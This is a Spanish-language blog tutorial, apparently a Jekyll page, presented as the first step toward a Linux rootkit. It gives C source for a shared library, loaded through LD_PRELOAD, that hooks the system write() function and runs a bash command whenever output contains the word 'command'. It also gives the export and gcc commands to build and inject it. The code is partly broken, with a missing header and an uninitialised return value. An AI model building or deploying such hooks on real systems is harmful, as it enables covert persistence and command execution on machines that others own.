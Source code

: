 # Mini tutorial de idea para crear un _rootkit_ para linux 

La idea principal es crear una biblioteca compartida en __C__ para suplantar la funcion  __write__ del
sistema. Utilizando  `LD_PRELOAD` que contiene una lista de objetos compartidos `ELF` especificados por el usuario.

Permite a los usuarios cargar estos objetos compartidos en el espacio de direcciones de un proceso antes que cualquier otra biblioteca compartida y antes de la ejecución del programa en sí.

### Sinopsis

```bash
export LD_PRELOAD=/path/to/candy.so:$LD_PRELOAD
```

###  Sinopsis de write

```cpp
#include <unistd.h>

ssize_t write(int fd, const void *buf, size_t count); 
```

# Descripcion

Escribe hasta __count__ bytes desde el `buffet` almacenando `buf` en el archivo al que hace referencia 
el descriptor de archivo `fd`. 

También utilizaremos la función `dlsym()` para realizar una búsqueda de símbolo. El cual sería la función __write__ en la biblioteca compartida especificada por `RTLD_NEXT` el cual indica que se debe buscar en la siguiente biblioteca compartida la lista de carga.

### Puntero a Función

Todas las funciones de _C_ están en punteros de actualidad a un punto en la memoria del programa donde existe algún código. El uso principal de un puntero de función es proporcionar una "devolución de llamada" a otras funciones (o para simular clases y objetos).

La sintaxis de una función es:

```
returnType (* nombre) (parámetros)
```

# Codigo

```cpp  
// Autor  : @demon_rip
// Nombre : candy

#include <dlfcn.h>
#include <stdio.h>
#include <unistd.h>

ssize_t write(int fildes, const void *buf, size_t nbytes) {
  // Puntera a  la  funcion   _write_
  ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);
  ssize_t result;
  //  Optenemos la direcion de  la  funcion  _write_ origina 
  new_write = (ssize_t(*)(int, const void *, size_t))dlsym(RTLD_NEXT, "write");

  // Buscar la palabra "command" en el buffer
  if (strstr((const char*)buf, "command") != NULL) { 
    // result = nbytes;
    char *args[] = {"/bin/bash", "-c", "ls -l", NULL};
    execvp(args[0],args);
  } else {
    result = new_write(fildes, buf, nbytes);
  }
  return result;
}
```

> Nota:  No se puede buscar en la condicion un comando que exista en **/bin** ya veremos como en proccimo capitulo. 

Este programa reacionara al intentar ejecutar un comando que no exista . Cualquir.
### Compilación 

```sh
gcc -ldl candy.c -fPIC -shared -D_GNU_SOURCE -o candy.so 
```

`-ldl` : Esto enlaza la biblioteca dinámica (`libdl`). La biblioteca `libdl` proporciona funciones para cargar dinámicamente bibliotecas compartidas en tiempo de ejecución.

`-fPIC`: Esta opción genera código independiente de la posición (Position Independent Code). Es necesario para crear bibliotecas compartidas para que el código generado pueda ser utilizado en cualquier dirección de memoria.

`-shared`: Esta opción indica que se debe crear una biblioteca compartida en lugar de un ejecutable. Las bibliotecas compartidas son archivos que pueden ser cargados en tiempo de ejecución por otros programas.

`-D_GNU_SOURCE`: Define la macro _GNU_SOURCE_. Esta macro habilita características y extensiones específicas de GNU en las bibliotecas estándar de C. Es útil para utilizar funciones y características adicionales que no están disponibles en el estándar ANSI C.


# Créditos 

A `@ivam3` por el cual obtuve una face beta de este código.



{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %} 



 
